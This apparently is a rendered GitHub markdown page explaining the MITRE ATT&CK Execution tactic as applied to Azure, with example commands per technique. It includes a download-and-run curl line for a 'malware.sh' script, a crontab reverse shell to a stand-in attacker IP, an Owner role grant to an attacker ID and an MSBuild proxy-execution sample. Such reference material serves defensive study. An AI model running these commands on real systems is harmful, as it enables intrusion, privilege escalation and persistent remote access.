 # Execution: TA0002

## Overview

The **Execution** phase focuses on how attackers **run malicious code** within a compromised environment to further their objectives. In **Azure environments**, attackers leverage automation tools, remote services, scripting interpreters, and native APIs to execute commands, manipulate resources, escalate privileges, and maintain control.

### **1. Running Commands via Azure Resource Manager**

**Technique: T1651 - Cloud Administration Commands**\
Attackers use AADInternals can execute commands on Azure virtual machines using the VM agent.

### **2. Running Code through Shells and Scripts**

**Technique: T1059 - Command and Scripting Interpreter**\
Attackers use PowerShell, Unix shells, and other scripting interpreters to run commands.

*   **T1059.001 - PowerShell:**\
    Use **Azure Automation Runbooks** to execute PowerShell commands and escalate privileges by assigning "Owner" role.

    ```powershell
    Add-AzRoleAssignment -RoleDefinitionName "Owner" -PrincipalId <AttackerID>
    ```
*   **T1059.004 - Unix Shell:**\
    Run a reverse shell via Bash on a compromised **Linux VM**.

    ```bash
    curl -o malware.sh https://<storage>.blob.core.windows.net/malware.sh && bash malware.sh
    ```

### **3. Automation and Scheduled Execution**

**Technique: T1053 - Scheduled Task/Job**\
Attackers use automated tasks to run malicious code periodically.

*   **T1053.003 - Cron Jobs:**\
    Add a cron job on a **Linux VM** to maintain persistent access.

    ```bash
    echo "* * * * * /bin/bash -i >& /dev/tcp/attacker_ip/4444 0>&1" >> /etc/crontab
    ```
* **T1053.005 - Scheduled Task:**\
  Use **Windows Task Scheduler** on a VM to execute malware during every boot.

### **4. Remote Command Execution**

**Technique: T1569 - System Services**\
Attackers execute malicious scripts remotely on VMs or through Azure services.

*   **T1569.002 - Service Execution:**\
    Use **VM RunCommand** to run commands remotely on a compromised VM.

    ```bash
    az vm run-command invoke --command-id RunShellScript --name <VM_Name> --resource-group <Resource_Group> --scripts "id; whoami"
    ```

### **5. Trigger-Based Execution on Events**

**Technique: T1546 - Event Triggered Execution**\
Adversaries run code automatically when specific events occur.

* **T1546.004 - Unix Shell Configuration Modification:**\
  Modify `.bashrc` on a Linux VM to trigger a reverse shell on every user login.

### **6. Executing Code via Legitimate Tools (Living off the Land)**

**Technique: T1218 - Signed Binary Proxy Execution**\
Attackers use trusted binaries to avoid detection.

*   &#x20;Use **MSBuild.exe** (a legitimate tool) to execute malicious commands on a Windows VM.

    ```xml
    <Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
      <Target Name="MaliciousTask">
        <Exec Command="cmd.exe /c calc.exe" />
      </Target>
    </Project>
    ```

### **7. User-Initiated Execution through Social Engineering**

**Technique: T1204 - User Execution**\
Attackers rely on tricking users into running malicious code.

* **T1204.001 - Malicious Link:**\
  Send a phishing email with a **malicious Azure Blob URL** that downloads malware.
* **T1204.002 - Malicious File:**\
  Send an Excel file with **VBA macros** through Microsoft Teams, triggering a PowerShell payload.

### **8. Abusing APIs to Execute Code**

**Technique: T1106 - Native API**\
Attackers use APIs to automate and execute commands.

*   Use the **Azure REST API** to deploy unauthorized VMs.

    ```bash
    curl -X POST -H "Authorization: Bearer <token>" \
    "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<group-name>/providers/Microsoft.Compute/virtualMachines?api-version=2021-07-01"
    ```

### **9. Obfuscation Techniques for Stealth Execution**

**Technique: T1059.001 - PowerShell**\
Attackers hide commands by encoding or obfuscating them.

*   Run **Base64-encoded PowerShell** to avoid detection by security tools.

    ```powershell
    powershell.exe -EncodedCommand <Base64EncodedPayload>
    ```

### **Summary Techniques for TA0002**

| **Key Concept**                        | **Technique**                             | **Azure Example**                                 |
| -------------------------------------- | ----------------------------------------- | ------------------------------------------------- |
| Running Code with Shells and Scripts   | T1059 - Command and Scripting Interpreter | PowerShell via Runbooks to escalate privileges    |
| Automation and Scheduled Execution     | T1053 - Scheduled Task/Job                | Cron job on Linux VM for persistent reverse shell |
| Remote Command Execution               | T1569 - System Services                   | RunCommand to execute scripts on VMs              |
| Trigger-Based Execution on Events      | T1546 - Event Triggered Execution         | Modify `.bashrc` to run code on user login        |
| Living off the Land (Legitimate Tools) | T1218 - Signed Binary Proxy Execution     | Use MSBuild.exe to execute payloads               |
| User-Initiated Execution (Social Eng.) | T1204 - User Execution                    | Phishing link to Azure Blob hosting malware       |
| Executing Code via APIs                | T1106 - Native API                        | Use REST API to deploy unauthorized VMs           |
| Obfuscation and Stealth Techniques     | T1059.001 - PowerShell                    | Run encoded PowerShell commands                   |

